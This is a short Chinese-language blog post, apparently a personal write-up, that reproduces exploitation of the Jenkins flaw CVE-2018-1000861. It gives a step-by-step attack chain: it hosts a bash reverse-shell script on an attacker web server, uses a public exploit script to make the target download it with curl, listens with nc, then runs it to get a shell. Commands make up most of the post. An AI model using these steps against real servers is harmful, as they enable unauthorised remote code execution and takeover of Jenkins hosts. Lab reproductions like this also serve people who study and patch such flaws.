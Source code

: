 ```yaml
---
title: "记一次说CVE-2018-1000861复现利用"
date: 2020-08-14 22:00:50
tags:
---
```

# 0x00 漏洞复现利用

此漏洞没有回显，直接利用orange的exp执行命令反弹shell

`https://github.com/orangetw/awesome-jenkins-rce-2019`

## step.1 在vps上使用Python启动一个临时web服务器
```
python -m SimpleHTTPServer
```
启动成功如下图所示：
![webServer_start](/assets/CVE-2018-1000861/webServer_start.png)

## step.2 在上面的web服务器内写入txt文本(要在启动web服务器的相同目录内)内容为：
```
bash -i >& /dev/tcp/{webServer_ip}/6666 0>&1
```
![write_bash](/assets/CVE-2018-1000861/write_bash.png)

## step.3 使用下载好的exp.py执行以下命令，下载step2在web服务器中写入的txt文件
```
python2 exp.py http://{靶机ip}:8080/ "curl -o /tmp/6666.sh http://{webServer_ip}:8000/007.txt"
```
![download](/assets/CVE-2018-1000861/download_txt.png)

## step.4 在Web服务器上再额外监听step2中写入的端口
```
nc -lvvp 6666
```
![nc](/assets/CVE-2018-1000861/nc.png)

## step.5 直接bash执行刚刚下载好的脚本
```
python2 exp.py http://{靶机ip}:8080/ "bash /tmp/6666.sh"
```
![exe_bash](/assets/CVE-2018-1000861/exe_bash.png)
## step.6 bingo~getshell~
![webshell](/assets/CVE-2018-1000861/webshell.png)